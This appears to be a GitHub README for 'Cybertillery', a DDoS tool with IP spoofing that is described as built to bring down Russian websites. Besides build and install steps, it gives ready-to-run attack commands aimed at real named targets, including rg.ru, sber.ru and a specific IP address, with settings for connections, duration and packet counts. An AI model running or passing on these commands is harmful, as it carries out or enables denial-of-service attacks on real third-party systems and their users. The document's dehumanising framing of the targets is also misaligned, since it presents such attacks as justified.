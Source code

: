 # Cybertillery - to fire on nasty orcs

DDoS tool with IP spoofing and ability to use parallel connections.
Built specifically to bring russian orc websites down to their knees.

### Compile command

```bash
make
```

### Install command
```bash
make install
```

## Usage examples

### Attack with 10 connections using URL with protocol

```bash
sudo ./bombard -u https://rg.ru -c 10
```

### Attack with 4 connections using IP address and port

```bash
sudo ./bombard -a 194.190.37.226 -p 443 -c 4
```

### Attack for 60 seconds

```bash
sudo ./bombard -u rg.ru/ -p 443 -c 4 -d 60
```

### Send 1000000 packets

```bash
sudo ./bombard -u https://sber.ru -c 10 -n 1000000
```

